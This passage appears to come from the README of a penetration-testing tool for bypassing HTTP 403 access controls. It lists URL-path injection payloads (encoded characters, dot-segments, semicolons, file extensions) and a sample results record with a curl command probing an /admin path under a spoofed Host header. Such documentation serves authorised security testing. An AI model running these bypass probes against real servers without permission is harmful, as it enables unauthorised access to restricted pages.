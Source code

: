 Inject to front, back, and both front and back of URL path; with and without prepending and appending slashes.

```
/
//
%09
%20
%2e
.
..
;
.;
..;
;foo=bar;
~
~~
~~random
*
**
**random
#
##
##random
?
??
??random
.php
.jsp
.jspa
.jspx
.jhtml
.html
.sht
.shtml
.xhtml
.asp
.aspx
.esp
```

## Results Format

```json
[
	{
		"id": 9,
		"url": "https://example.com/admin",
		"method": "GET",
		"headers": [
			"Host: localhost"
		],
		"agent": null,
		"command": "curl -w '\n\nFBD-CL: %{size_download}' -m 5 --connect-timeout 5 -i -s -k -L --path-as-is -H 'Host: localhost' -X 'GET' 'https://example.com/admin'",
		"code": 302,
		"length": 142
	},
	{
		"id": 49,
		"url": "https://example.com/admin",
		"method": "GET",
		"headers": [
			"Host: localhost:80"
```